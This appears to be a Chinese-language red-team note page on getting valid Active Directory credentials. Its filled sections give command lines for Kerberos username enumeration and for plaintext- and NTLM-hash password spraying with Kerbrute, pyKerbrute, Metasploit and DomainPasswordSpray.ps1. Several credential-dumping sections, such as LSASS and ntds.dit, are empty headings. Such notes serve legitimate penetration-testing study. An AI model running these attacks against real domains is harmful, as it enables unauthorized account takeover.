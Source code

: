 ```yaml
---
description: 基于Kerberos认证 / NTLM认证 / 枚举用户名 + 密码喷洒 = 获取有效凭证 / 枚举出用户名
---
```


# ✔️ 获取域内有效凭证

## 攻击手法

1. 枚举出目标域内存在的用户名
2. 对这些用户名进行密码喷洒
3. 获得有效域内用户凭证：
   1. 明文密码
   2. 密码Hash

## 获取明文身份凭证

### LAS Secrets





### LSASS Process

*



### LSASS Protection bypass







### Credential Manager





## 获取Hash身份凭证

### 通过SAM数据库获取本地用户Hash凭证





### 通过域控的ntds.dit文件

#### 本地提取







#### 远程提取





## 用户名枚举工具&使用

### Kerbrute

* `userenum`：指定操作为用户名枚举
* `usernames.txt`：包含待枚举用户名的文件（可以是字典，也可以是针对目标域收集到的用户名列表）

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 和Kerbrute类似（该工具用python写的）
* 用的是：EnumADUser.py

```bash
// TCP模式
python EnumADUser.py 域控IP 目标域名 username.txt tcp
// UDP模式
python EnumADUser.py 域控IP 目标域名 username.txt udp
```

### MSF

* 模块：auxiliary/gather/kerberos\_enumusers

```bash
use auxiliary/gather/kerberos_enumusers
set domain 目标域名
set RHOSTS 域控IP
set user_file /tem/username.txt
run
```

## 密码喷洒工具&使用

### Kerbrute

* `passwordspray`：指定操作为密码喷洒

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 用的是：ADPwdSpray.py

```bash
// 针对明文密码进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 udp
// 针对密码Hash进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 udp
```

### DomainPasswordSpray.ps1

* 该工具为powershell脚本
* 需要在目标域内机器上执行
* 原理：利用LDAP从域中导出列表->去除被锁定的用户->进行密码喷洒

```powershell
Import-Module.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 已知的明文密码
```



